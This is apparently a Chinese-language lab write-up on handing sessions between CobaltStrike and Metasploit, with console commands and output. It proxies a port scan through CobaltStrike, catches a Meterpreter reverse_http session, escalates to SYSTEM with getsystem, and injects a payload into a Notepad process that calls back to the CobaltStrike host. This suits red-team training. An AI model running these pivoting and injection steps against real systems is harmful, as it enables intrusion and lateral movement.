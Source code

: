 ```yaml
---
title: metasploit和CobaltStrike联动
date: 2022-04-25
---
```


## 0.环境

| 名称           | IP              |
| ------------ | --------------- |
| metasploit   | 192.168.1.100   |
| 靶机           | 192.168.1.101   |
|              | 192.168.100.155 |
| CobaltStrike | 192.168.1.103   |



## 1 CobaltStrike会话传递给metasploit。

### 1.1 使用CobaltStrike的Socks代理

+ 先使用CobaltStrike生产一个反弹shell。

+ 等待连接完成已经按照下图步骤开启Socks代理。

![截图_2022-04-25_10-58-05.png](../../images/metasploit和CobaltStrike联动/截图_2022-04-25_10-58-05.png)

+ 设置Socks端口这里我使用默认。

![截图_2022-04-25_11-02-40.png](../../images/metasploit和CobaltStrike联动/截图_2022-04-25_11-02-40.png)

+ 代理开启成功。

![截图_2022-04-25_11-03-59.png](../../images/metasploit和CobaltStrike联动/截图_2022-04-25_11-03-59.png)

+ 获取metasploit代理配置。

![截图_2022-04-25_11-11-26.png](../../images/metasploit和CobaltStrike联动/截图_2022-04-25_11-11-26.png)

+ 复制代理配置。

![2022-04-25-11-15-04-image.png](../../images/.config/marktext/images/2022-04-25-11-15-04-image.png)

+ 在metasploit输入代理配置信息之后就可以通过CobaltStrike代理使用metasploit的功能。

```bash
msf6 > setg Proxies socks4:192.168.1.103:14265
Proxies => socks4:192.168.1.103:14265
```

+ 使用metasploit的端口扫描。

```bash
msf6 > use auxiliary/scanner/portscan/tcp 
msf6 auxiliary(scanner/portscan/tcp) > set rhosts 192.168.100.1/24
rhosts => 192.168.100.1/24
msf6 auxiliary(scanner/portscan/tcp) > set ports 80,888,8080,8888
ports => 80,888,8080,8888
msf6 auxiliary(scanner/portscan/tcp) > set threads 20
threads => 20
msf6 auxiliary(scanner/portscan/tcp) > exploit 
[*] 192.168.100.1/24:     - Scanned  36 of 256 hosts (14% complete)
[*] 192.168.100.1/24:     - Scanned  57 of 256 hosts (22% complete)
[*] 192.168.100.1/24:     - Scanned  80 of 256 hosts (31% complete)
[*] 192.168.100.1/24:     - Scanned 118 of 256 hosts (46% complete)
[+] 192.168.100.131:      - 192.168.100.131:8888 - TCP OPEN
[*] 192.168.100.1/24:     - Scanned 140 of 256 hosts (54% complete)
[*] 192.168.100.1/24:     - Scanned 160 of 256 hosts (62% complete)
[*] 192.168.100.1/24:     - Scanned 180 of 256 hosts (70% complete)
[*] 192.168.100.1/24:     - Scanned 217 of 256 hosts (84% complete)
[*] 192.168.100.1/24:     - Scanned 239 of 256 hosts (93% complete)
[*] 192.168.100.1/24:     - Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
```

### 1.2 将CobaltStrike的会话传递到metasploit。

+ msf配置监听器。

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set lhost 192.168.1.100
lhost => 192.168.1.100
msf6 exploit(multi/handler) > exploit 
[*] Started HTTP reverse handler on http://192.168.1.100:8080
```

+ 选择监听器。

![截图_2022-04-25_14-49-58.png](../../images/metasploit和CobaltStrike联动/截图_2022-04-25_14-49-58.png)

+ 创建一个Foreign HTTP监听器。这里的地址和端口是metasploit设置的信息。

![截图_2022-04-25_15-00-12.png](../../images/metasploit和CobaltStrike联动/截图_2022-04-25_15-00-12.png)

+ 选择新建会话。

![截图_2022-04-25_15-01-24.png](../../images/metasploit和CobaltStrike联动/截图_2022-04-25_15-01-24.png)

+ 选择刚才创建的监听器。

![截图_2022-04-25_15-02-13.png](../../images/metasploit和CobaltStrike联动/截图_2022-04-25_15-02-13.png)

+ 会话传递成功。

```bash
msf6 exploit(multi/handler) > exploit 

[*] Started HTTP reverse handler on http://192.168.1.1008080
[!] http://192.168.1.100:8080 handling request from 192.168.1.101; (UUID: 9c8ocpoi) Without a database connected that payload UUID tracking will not work!
[*] http://192.168.1.100:8080 handling request from 192.168.1.101; (UUID: 9c8ocpoi) Staging x86 payload (176220 bytes) ...
[!] http://192.168.1.100:8080 handling request from 192.168.1.101; (UUID: 9c8ocpoi) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (192.168.1.100:8080 -> 127.0.0.1 ) at 2022-04-25 15:02:37 +0800

meterpreter > getuid
Server username: WIN-HHP4Q76IAO9\Administrator
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## 2 metasploit会话传递给CobaltStrike。

+ 这里我使用CobaltStrike刚才传递到metasploit会话，现在我把metasploit的会话传递回CobaltStrike。

+ 使用metasploit中的`windows/local/payload_inject`模块。这里设置ip和端口是CobaltStrike的test监听器。

```bash
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/payload_inject
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/payload_inject) > set payload windows/meterpreter/reverse_http
msf6 exploit(windows/local/payload_inject) > set lhost 192.168.1.103
lhost => 192.168.1.103
msf6 exploit(windows/local/payload_inject) > set lport 4096
lport => 4096
msf6 exploit(windows/local/payload_inject) > set session 1
session => 1
msf6 exploit(windows/local/payload_inject) > exploit 

[-] Handler failed to bind to 192.168.1.103:4096
[*] Started HTTP reverse handler on http://0.0.0.0:4096
[*] Running module against WIN-HHP4Q76IAO9
[*] Spawned Notepad process 9580
[*] Injecting payload into 9580
[*] Preparing 'windows/meterpreter/reverse_http' for PID 9580
[*] Exploit completed, but no session was created.
```

+ 创建成功。

![截图_2022-04-25_15-14-03.png](../../images/metasploit和CobaltStrike联动/截图_2022-04-25_15-14-03.png)
